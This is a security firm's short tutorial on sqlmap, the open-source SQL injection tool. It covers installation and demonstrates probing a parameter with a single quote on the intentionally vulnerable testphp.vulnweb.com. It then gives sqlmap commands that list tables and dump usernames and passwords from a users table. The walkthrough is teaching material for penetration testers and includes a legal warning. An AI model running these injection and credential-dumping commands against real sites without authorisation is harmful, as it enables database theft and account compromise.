 SQLMAP
============

Automatic SQL injection and database takeover tool

![SQLMAP ](https://briskinfosec.com//assets/tooloftheday/Copy_of_Briskinfosec_TOD_Latest_samples_178.jpg)


Details:
============
|  Details | Description   |
| ------------ | ------------ |
|  Tool Name |  SQLMAP |
|  Category | Web Application  |
|  Purpose | sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.  |
|  License |    Opensource|

Demo Video:
-----------------
Click Here for [Video](https://www.youtube.com/watch?v=RKgO1penBtk  "Video")


Blog: 
--------------
Click Here for [Blog](https://briskinfosec.com/tooloftheday/toolofthedaydetail/SQLMAP "Blog")

Installation
----------------

To install SQLmap we can pull it  from above github link or we can use below command 

- apt-get install sqlmap

It comes installed by default in kali linux...

To use sqlmap to exploit SQLi flaw

1.First we need to find a SQLi vulnerable parameter in a web app

- testphp.vulnweb.com/listproducts.php?cat=2' 

 Adding a single quote showed this site parameter cat is vulnerable 

2.We can launch sqlmap to dump Databases, tables and cloumns and Data from the vulnerable site

Note: Using Sqlmap for exploitation without proper permission is illegal

-  -u url -p parameter
- --dbs databases
- --tables to get tables
- --columns to get columns

Sqlmap may take a lot of time as it will try lot of sqli techniques based on target SQL server (mysql, mssql, oracle etc.,)

Once we got DB, we can fetch tables and columns

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart --tables

Lets dump user and pass info from users table

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -p cat -D acuart -T users -C uname,pass --dump

In this way SQLmap can be used to exploit blind SQLi vulnerability also.

------------


Links
----------------

 ![ ](https://img.icons8.com/color/15/000000/youtube-play.png) [Briskinfosec Youtube Channel](https://www.youtube.com/channel/UCcPmqqYETcO_7-6p_uUsF1w "Briskinfosec Youtube Channel")


 ![ ](https://img.icons8.com/glyph-neue/15/000000/github.png) [Github](https://github.com/briskinfosec "Github") 

  ![ ](https://img.icons8.com/ios/15/000000/internet--v2.png) [Our Website](https://www.briskinfosec.com/ "Our Website")

